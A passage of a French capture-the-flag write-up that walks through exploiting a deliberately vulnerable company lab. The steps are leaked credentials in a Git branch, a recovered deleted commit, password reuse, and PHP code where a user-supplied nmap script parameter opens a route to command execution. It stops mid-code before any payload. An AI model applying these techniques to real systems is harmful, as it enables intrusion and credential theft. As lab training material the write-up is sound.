## Desgazons

Track de défis en six parties dans divers scénario Web Entreprise

> Desgazons fait face à des préoccupations croissantes suite à l'embauche récente d'un employé dont le travail semble plus que douteux. Pour prévenir tout risque potentiel lié à cette situation, nous recherchons des experts en cybersécurité pour effectuer un test de pénétration complet. L'objectif est d'identifier et de corriger les vulnérabilités que cet employé pourrait avoir introduites par négligence, afin de protéger nos données sensibles et de renforcer la sécurité de notre infrastructure technologique.

## Partie 1



Le challenge débute sur la page publique de l'entreprise. On y trouve quelques pages informatives et un formulaire de contact. Rien de spécial à signaler.



Si on jette un coup d'oeil aux sources, on y trouve un lien commenté vers un serveur Gitea et notre premier flag!

## Partie 2

>Vos premières analyses sont précieuses et démontrent une grande expertise. Cependant, nous pensons qu'il serait bénéfique de creuser davantage pour s'assurer qu'aucune vulnérabilité n'a été négligée. Nous vous encourageons à poursuivre vos investigations en profondeur pour garantir que toutes les failles potentielles soient identifiées et corrigées.
>
>Merci pour votre engagement et votre rigueur dans cette mission cruciale.



Si on suis le lien, on se retrouve dans le gestionnaire de source de l'entreprise. Nous n'avons pas de compte, mais il y a trois repos visibles publiquement.

On a un repos pour la page publique, il ne contient rien de nouveau pour nous.

On en a un qui contient quelques URL de possible intéret.



>http://gitea.desgazons.challenges.finctf.ettic.net
http://public.desgazons.challenges.finctf.ettic.net
http://staging.desgazons.challenges.finctf.ettic.net
http://rh.desgazons.challenges.finctf.ettic.net

La page des RH est brisée, mais le staging fonctionne.

On peut peut-être y trouver une version de..




Non! Rien ici on s'en va.

Finalement on a un repos `test` créé par un certain *Timmy*.



Le contenu est peu mémorable. Par contre on voit qu'il y a deux branches. Si on navigue vers la branche `tmp`:



Un fichier additionnel intéressant est présent. Il contient notre deuxième flag et des informations qui en dit long sur le personnage auquel on a affaire. Je crois qu'on va recroiser chemin avec Timmy sous peu...

`nano.save`
```
username: timmy
password: timmy2024
the_best: yes
flag: FINCTF{PUBL1C_R3P0_F0R_PUBL1C_4CC3SS}
```

## Partie 3

>Je vous remercie pour le travail exceptionnel que vous avez réalisé jusqu'à présent. Les preuves que vous avez fournies concernant l'incompétence de l'employé sont très précieuses et confirment nos préoccupations. Cela dit, il est important de poursuivre les investigations pour s'assurer qu'aucune autre vulnérabilité n'a été laissée de côté. Je vous encourage à continuer à explorer en profondeur afin de garantir la sécurité totale de notre infrastructure.
>
>Merci encore pour votre diligence et votre expertise.

Timmy... on connait tous un Timmy. On a tous déjà travaillé avec un Timmy. Peut-être que vous êtes un Timmy... ಠ_ಠ

C'est l'heure de la revanche. On doit exposer Timmy pour la vulnérabilité ambulante qu'il est.

Dans la partie précédente, on a obtenu un nom d'utilisateur et un mot de passe digne du top 100. Utilisons-les sur Gitea.



Succès! Nous somme connecté en tant que Timmy. On peux maintenant voir deux nouveaux repos privés.

`awesome_website` n'a qu'une page html et rien d'intéressant. Pour notre bien restons loin de là.

`personnal`contient quelques fichier et plusieur révisions.



`curriculumvitae.md` est un C.V. remplis d'emoji et très peu humble... rien de valeur ici.
<details>
<summary>Le C.V.</summary>



</details>
<br>
`notes.md` est litéralement une collection de critiques peu flateuse sur ses collègues... oh it's on now...

<details>
<summary>Les notes</summary>



</details>
<br>
Finallement `todo.md`est une todo list dont un point suscite l'attention.



On mentionne un commit effacé.
Si on liste l'historique des commit on peut voir qu'il y a eu combat...



Le diff entre `fuuuuck`et `fuck fixed :D` est simplement la note de la todo list concernant les mots de passe leaké à été rayée. On peut donc supposer qu'il y a un commit *supprimé* peu avant ces commits.


À moins d'un rebase, plus souvent qu'autrement un commit *effacé* est plutôt *détaché* de l'arboressance.

Une façon simple de trouver des commit *dangling* est de parcourrir l'historique d'activité et trouver le commit original. Cette information est plus facile a obtenir si on utilise [l'API Gitea](https://docs.gitea.com/api/1.22/)

Encore plus pratique, Gitea expose un SwaggerUI!

`http://gitea.desgazons.challenges.finctf.ettic.net:8080/api/swagger#/repository/repoListActivityFeeds`

On indique `desgazons` et `personal` puis on exécute.




Dans la réponse, on peut trouver le commit `fuuuuck`, mais avec un sha1 différent de celui qu'on a présentement `5e87b7b7bd14220a6edd3f9c9e8dfd9732699f0d` ici au lieu de `8e71f93259865ef90ed2f9514255ec055752be85`

Si on va dans le détail de ce commit, on vois un commit parent lui aussi inconnu jusqu'à présent. Commit id `72ec0a9f48f42bf2008351b9580629deca861909`



On obtient les détails d'un compte de service et notre troisième flag.

## Partie 4

>Les résultats de vos investigations révèlent une situation bien plus grave que ce que nous pouvions imaginer concernant cet employé. La situation est préoccupante, et il est désormais crucial de continuer la mission pour rassembler toutes les preuves possibles. Votre travail jusqu'à présent a été d'une grande valeur, et nous comptons sur votre expertise pour identifier toutes les failles et préserver la sécurité de notre entreprise.
>
>Merci pour votre engagement et pour l'aide précieuse que vous nous apportez dans cette situation critique.

On a maintenant on nouveau compte pour accéder au serveur Gitea.

```
username: svc_web
password: +NKaKi3nc*g&GX_7yy=};I4W,
```

En utilisant ce nouveau compte on a maintenant accès a un nouveau repos `admin`.



C'est les source d'une page administrative hébergée à l'adresse:
`https://admin.desgazons.challenges.finctf.ettic.net`



Nous sommes devant un login et une mise en garde. En inspectant les sources on se rend compte qu'il n'y a pas grand chose possible a moins d'être authentifié.

Est-ce que notre Timmy, modèle de vertue et de bonnes pratiques, serait du genre à réutiliser ses mots de passes?

Oui! Clairement!



Une fois connecté, on a une page qui nous donne notre ID, un token et un bouton qui semble éxécuter nmap server side.

Peut-être qu'il est possible d'y injecter des commandes?

Si on inspecte les sources:

```php
<form method="post">
<button name="submit" class="huge-button" type="submit">TEST SERVICES</button>
</form>
<?php
if(isset($_POST["submit"])){
    $command = 'nmap';
    $args = ['public.desgazons.challenges.finctf.ettic.net', '-p','443'];

    // TODO: jean-david: need to dev the script to perform in-depth service analysis
    if(isset($_POST["script"])){
        array_push($args, '--script='.$_POST["script"]);
    }

    // alicia: as a secure developer, I perform sanitization of untrusted user input
    $escapedArgs = array_map('escapeshellarg', $args);
    $fullCommand = 'sudo -u nmap '. $command . ' ' . implode(' ', $escapedArgs);
    exec($fullCommand, $output, $returnStatus);

    $output = implode("\n",$output)
?>

```

Malheureusement, ce n'est pas Timmy qui a développé cette fonctionnalité :,(
Il n'y a pas de façon d'injecter de commande directement, mais fait intéressant, on peut spécifier un script nmap en paramètre...

Si on trouve une façon de fournir un [script NSE](https://nmap.org/book/man-nse.html) on aurait moyen d'éxécuter des commandes arbitraires sur le serveur.

Continuons d'explorer...

```php

    // phil: combining the token of the session with the userID
    // we can specifically track requests related to a specific moment in time
    $file = fopen('/var/log/desgazons/admin/log-'.$_SESSION["token"].'.txt', 'a+');
    fwrite($file, "-- [".$_SESSION["id"]."] status scan launched --\n");
    if($up === true){
        fwrite($file, "result -> service is up\n");
    }
    else{
        fwrite($file, "result -> service is down\n");
    }

    fclose($file);

```

Si on continue de lire plus loin on vois que l'application log les activités dans des fichiers logs par session. Le nom du fichier contient le token unique de notre connection. Ce sont des élément que l'on a accès mais ne contrôle pas. C'est une bonne piste, quoi d'autre génère des logs?

Si on se dirrige vers `login.php`:

```php
$result = $query->fetch();
if (password_verify($_POST["password"], $result["password"]) === true) {
    $_SESSION["auth"] = true;
    $_SESSION["id"] = $result["id"];
    return header("Location: index.php");
}else{
    // TODO: jean-david: we should log suspect activity (bruteforce ?)
    /* timmy: done, took me 5 minutes, so easy to dev lol #goat */
    $file = fopen('/var/log/desgazons/admin/log-'.$_SESSION["token"].'.txt', 'a+');
    fwrite($file, "-- failed authentication attempt --\n");

    foreach($_POST as $key => $value){
        /* timmy: f-ing pentest told us we had CRLF injection in our log files, whooo careees
            whatever, management forced me to dev this code
            it does not feel like me, I hate this code #client-first */
        if(strpos($value, "\n") !== false){
            $value = str_replace("\n","",$value);
        }
        if(strpos($value, "\r") !== false){
            $value = str_replace("\r","",$value);
        }
        /* timmy: writing the file like a boss */
